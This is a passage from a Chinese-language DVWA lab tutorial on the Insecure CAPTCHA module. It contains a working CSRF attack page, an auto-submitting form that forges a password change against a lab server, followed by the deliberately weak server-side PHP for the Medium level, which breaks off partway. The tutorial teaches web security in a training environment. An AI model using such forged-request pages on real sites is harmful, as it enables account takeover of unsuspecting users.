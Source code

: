  2.  由于没有任何的防 CSRF 机制，我们可以轻易地构造攻击页面，页面代码如下（详见[CSRF模块的教程][8]）。

<html>

<body onload="document.getElementById('transfer').submit()">

<div>

 <form method="POST" id="transfer" action=" [http://192.168.153.130/dvwa/vulnerabilities/captcha/][16]">

<input type="hidden" name="password_new" value="password">

<input type="hidden" name="password_conf" value="password">

<input type="hidden" name="step" value="2"

<input type="hidden" name="Change" value="Change">

</form>

</div>

</body>

</html>

当受害者访问这个页面时，攻击脚本会伪造改密请求发送给服务器。

![][17]

美中不足的是，受害者会看到更改密码成功的界面（这是因为修改密码成功后，服务器会返回 302 ，实现自动跳转），从而意识到自己遭到了攻击。

![][18]

**Medium**

服务器端核心代码：

    <?php 
    
    if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '1' ) ) { 
        // Hide the CAPTCHA form 
        $hide_form = true; 
    
        // Get input 
        $pass_new  = $_POST[ 'password_new' ]; 
        $pass_conf = $_POST[ 'password_conf' ]; 
    
        // Check CAPTCHA from 3rd party 
        $resp = recaptcha_check_answer( $_DVWA[ 'recaptcha_private_key' ], 
            $_SERVER[ 'REMOTE_ADDR' ], 
            $_POST[ 'recaptcha_challenge_field' ], 
            $_POST[ 'recaptcha_response_field' ] ); 
    
        // Did the CAPTCHA fail? 
        if( !$resp->is_valid ) { 
            // What happens when the CAPTCHA was entered incorrectly 
            $html     .= "<pre><br />The CAPTCHA was incorrect. Please try again.</pre>"; 
            $hide_form = false; 
            return; 
        } 
        else { 
            // CAPTCHA was correct. Do both new passwords match? 
            if( $pass_new == $pass_conf ) { 
                // Show next stage for the user 
                echo " 
                    <pre><br />You passed the CAPTCHA! Click the button to confirm your changes.<br /></pre> 
                    <form action=\"#\" method=\"POST\"> 
                        <input type=\"hidden\" name=\"step\" value=\"2\" /> 
                        <input type=\"hidden\" name=\"password_new\" value=\"{$pass_new}\" /> 
                        <input type=\"hidden\" name=\"password_conf\" value=\"{$pass_conf}\" /> 
                        <input type=\"hidden\" name=\"passed_captcha\" value=\"true\" /> 

[1]: http://www.freebuf.com/articles/web/119692.html
[3]: http://www.dvwa.co.uk/
[4]: http://img1.tuicool.com/7VvYrm2.jpg!web
[5]: http://www.freebuf.com/sectool/102661.html
[6]: http://www.freebuf.com/articles/web/116437.html
[7]: http://www.freebuf.com/articles/web/116714.html
[8]: http://www.freebuf.com/articles/web/118352.html
[9]: http://www.freebuf.com/articles/web/119150.html
[10]: http://www.freebuf.com/articles/web/119467.html
[11]: http://img1.tuicool.com/MBJN7bE.jpg!web
[12]: http://img2.tuicool.com/NBnQZzB.jpg!web
[13]: http://img2.tuicool.com/rmEjiyq.jpg!web
[14]: http://img0.tuicool.com/eqYfMfI.jpg!web
[15]: http://img0.tuicool.com/YRFjMby.jpg!web
[16]: http://192.168.153.130/dvwa/vulnerabilities/captcha/
[17]: http://img2.tuicool.com/vMFbey6.jpg!web
[18]: http://img0.tuicool.com/naAbIvA.jpg!web
[19]: http://img2.tuicool.com/FBNRnyz.jpg!web
[20]: http://img0.tuicool.com/rqyEvyu.jpg!web
[21]: http://img2.tuicool.com/6n2UbuI.jpg!web
[22]: http://img2.tuicool.com/fU3IVbF.jpg!web
[23]: http://img1.tuicool.com/yEB3Yfj.jpg!web
[24]: http://img0.tuicool.com/uuiy6fn.jpg!web
[25]: http://img2.tuicool.com/fiAbum3.jpg!web
[26]: http://img1.tuicool.com/2qMRnaa.jpg!web
[27]: http://img2.tuicool.com/z6FNNzF.jpg!web